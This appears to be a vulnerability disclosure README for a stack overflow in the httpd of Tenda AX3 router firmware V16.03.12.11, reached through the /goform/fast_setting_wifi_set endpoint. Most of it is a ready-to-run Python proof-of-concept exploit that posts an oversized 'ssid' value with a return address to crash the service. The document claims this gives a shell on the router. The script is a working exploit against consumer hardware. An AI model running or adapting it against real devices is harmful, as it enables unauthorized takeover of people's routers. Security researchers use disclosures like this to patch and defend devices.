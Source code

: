 # Tenda AX3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V16.03.12.11

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `form_fast_setting_wifi_set` function, which can be accessed via the URL `/goform/fast_setting_wifi_set`

![1](./1.jpg)



When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-


import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        if data is not None:
            data = self.Encode(data)

        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        print uri
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #Fireitup
    payload='a'*0x228+p32(0x0587D8) 
    ip = '127.0.0.1'  
    # 构造http数据包
    s='1'
    pdata = {

        'aa'  :   'aaaa' ,
        'ssid'  :   payload 
        }

    header = {
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        aa=HTTP(ip).Send('goform/fast_setting_wifi_set', data=pdata,headers=header,encode_params=False,response=True)
        print aa
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)




```

![poc](./poc.jpg)

![poc1](./poc1.jpg)

